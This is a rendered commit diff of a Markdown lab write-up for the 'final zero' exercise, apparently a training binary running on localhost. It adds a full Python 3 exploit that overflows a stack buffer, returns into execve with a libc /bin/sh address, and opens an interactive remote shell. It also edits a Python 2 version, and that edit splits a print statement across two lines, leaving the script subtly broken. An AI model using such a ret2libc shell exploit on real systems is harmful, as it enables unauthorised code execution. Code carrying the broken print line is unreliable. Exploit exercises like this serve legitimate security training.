

Before and after one commit to vorlov-bash/crypto-labs, a Markdown page: 8/final_zero.md, 2 parts joined by grey strips. Shown: that part at 87% size. Drawn GitHub-style; pictures changed too: 8/fzero.png (added); blank space fills up the shorter version.

Commit message:
finish lab4, add diagram and python3 script to final zero

````diff
--- a/8/final_zero.md
+++ b/8/final_zero.md
@@ -62,7 +62,7 @@ To get /bin/sh padding: `strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh`
 
 So address will be: `0xb7e97000 + 0x11f3bf`
 
-### Final python script
+### Final python2 script
 
 ```python
 import socket
@@ -84,13 +84,51 @@ EXECVE_ADDRESS = struct.pack('I', 0x08048c0c)  # info functions @plt
 BIN_BASH_ADDRESS = struct.pack('I',
                                0xb7e97000 + 0x11f3bf)  # cat /proc/$(pidof final0)/maps + strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 
-PAYLOAD = PADDING + EXECVE_ADDRESS + 'AAAA' + BIN_BASH_ADDRESS + '\x00' * 8 # '\x00' * 8: last 2 args of execve()
+PAYLOAD = PADDING + EXECVE_ADDRESS + 'AAAA' + BIN_BASH_ADDRESS + '\x00' * 8  # '\x00' * 8: last 2 args of execve()
 
 s.send(PAYLOAD + '\n')
 s.send('whoami\n')
-print 'user: ' + s.recv(1024)
+print
+'user: ' + s.recv(1024)
 
-t = telnetlib.Telnet() # to interact
+t = telnetlib.Telnet()  # to interact
 t.sock = s
 t.interact()
 ```
+
+### Final python3 script
+
+```python
+import socket
+import struct
+import telnetlib
+
+HOST = '127.0.0.1'  # final0 host
+PORT = 2995  # final0 port
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect((HOST, PORT))  # socket connection
+
+BUFFER_PAYLOAD = b'A' * 511 + b'\x00'  # buffer overwriting
+GARBAGE_PAYLOAD = b'AAAABBBBCCCCDDDD' + b'EEEE'  # garbage + epb
+
+PADDING = BUFFER_PAYLOAD + GARBAGE_PAYLOAD  # final padding
+
+EXECVE_ADDRESS = struct.pack('I', 0x08048c0c)  # info functions @plt
+BIN_BASH_ADDRESS = struct.pack('I',
+                               0xb7e97000 + 0x11f3bf)  # cat /proc/$(pidof final0)/maps + strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
+
+PAYLOAD = PADDING + EXECVE_ADDRESS + b'AAAA' + BIN_BASH_ADDRESS + b'\x00' * 8  # '\x00' * 8: last 2 args of execve()
+
+s.send(PAYLOAD + b'\n')
+s.send(b'whoami\n')
+print('user: ' + s.recv(1024).decode())
+
+t = telnetlib.Telnet()  # to interact
+t.sock = s
+t.interact()
+```
+
+### Diagram
+
+![flow diagram](fzero.png)
````
Also changed, not shown: 4/README.md (added, +37 -0 lines), 9 other files.
